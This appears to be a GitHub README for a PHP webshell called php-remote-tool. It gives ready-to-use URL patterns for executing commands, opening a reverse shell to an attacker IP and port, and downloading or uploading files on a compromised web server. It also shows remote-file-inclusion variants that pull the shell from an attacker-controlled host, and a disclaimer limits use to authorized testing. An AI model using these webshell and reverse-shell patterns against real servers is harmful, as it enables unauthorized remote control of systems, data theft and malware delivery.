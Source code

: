 # PHP Remote Tool
Author: Yavuz Sahbaz
GitHub: https://github.com/YavuzSahbaz

## Overview
php-remote-tool is a PHP webshell script that enables remote command execution, reverse shell initiation, file downloading, and file uploading on a target system running a web server with PHP support. This script is designed for use during penetration testing exercises or system administration tasks where you have permission to perform these actions on the target system. Unauthorized use may be illegal and unethical.

## Usage
Upload the php-remote-tool script to the target web server.
Access the script through a web browser or a tool like curl or wget.
Execute commands
To execute a command on the target system, use the following URL format:

```
LOCAL: http://target.com/path/cmd.php?cmd=[COMMAND]
REMOTE: http://target.com/index.php?page=http://attack.com/cmd.php&cmd=[COMMAND]
Replace [COMMAND] with the command you want to execute on the target system.
```
## Initiate reverse shell
To initiate a reverse shell to your system, use the following URL format:

```

LOCAL: http://target.com/path/cmd.php?revshell=[ATTACKER_IP]:[ATTACKER_PORT]
REMOTE: http://target.com/index.php?page=http://attack.com/cmd.php&revshell=[ATTACKER_IP]:[ATTACKER_PORT]
Replace [ATTACKER_IP] with your IP address and [ATTACKER_PORT] with the port you want to use for the reverse shell connection. 
Make sure to set up a listener on your system to receive the connection.
```
## Download a file
To download a file from a URL and save it on the target system, use the following URL format:

```

LOCAL: http://target.com/path/cmd.php?download=[URL]&filename=[FILENAME]
REMOTE: http://target.com/index.php?page=http://attack.com/cmd.php&download=[URL]&filename=[FILENAME]
Replace [URL] with the URL of the file you want to download, 
and [FILENAME] with the desired name for the saved file on the target system.
```
## Upload a file
To upload a file to the target system, use the following URL format:
```

LOCAL: http://target.com/path/cmd.php?upload&filepath=[FILE_PATH]
REMOTE: http://target.com/index.php?page=http://attack.com/cmd.php&upload&filepath=[FILE_PATH]
Replace [FILE_PATH] with the desired file path for the uploaded file on the target system. 
Use an HTTP POST request to send the file with the Content-Type 
header set to multipart/form-data and the file parameter named "file".
```
## Disclaimer
This PHP webshell script is intended for educational purposes and ethical use only. Unauthorized use of this script may be illegal and unethical. Always make sure you have permission to perform any action on the target system and follow ethical hacking principles and guidelines. The author and any contributors are not responsible for any damage caused by unauthorized use of this script.
